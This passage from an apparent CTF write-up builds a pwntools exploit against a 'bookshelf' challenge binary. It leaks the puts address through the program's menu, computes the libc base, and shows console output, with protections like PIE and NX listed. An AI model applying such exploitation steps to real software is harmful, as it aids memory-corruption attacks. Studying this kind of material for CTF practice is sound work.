 Let's test it:

```console
$ python exploit.py
[+] Starting local process './bookshelf': pid 421509
[*] Leaking puts
[+] Puts found @ 0x7f81e2275bf0
[*] Stopped process './bookshelf' (pid 421509)
$ 
```

It's working, great!

For now, since we are developing a local exploit, let's use our system's libc file for reference and calculate the libc base address at runtime.

```python
from pwn import *

p = process('./bookshelf')

libc = ELF('/usr/lib/libc.so.6')

# LEAK PUTS
log.info('Leaking puts...')
for _ in range(8):
    p.sendline(b'2')    # Go to bookshop
    p.sendline(b'2')    # Buy/Attempt to buy a book
    p.sendline(b'y')    # Leave tip

p.sendline(b'2')    # Go to bookshop
p.sendline(b'3')    # Read value of puts()
p.sendline(b'N')    # No need to leave any more tip

leak = p.clean()    # Read everything till now
leak = b''.join(word for word in leak.split(b' ') if word.startswith(b'0x'))    # Filter the text for the memory address

puts = int(leak, 16)
log.success('Puts found @ ' + hex(puts))

libc_base = puts - libc.symbols['puts']
log.success('libc base @ ' + hex(libc_base))

p.close()
```

```console
$ python exploit.py
[+] Starting local process './bookshelf': pid 730033
[*] '/usr/lib/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Leaking puts...
[+] Puts found @ 0x7f23aee75bf0
[+] libc base @ 0x7f23aee00000
[*] Stopped process './bookshelf' (pid 730033)
$ 
```

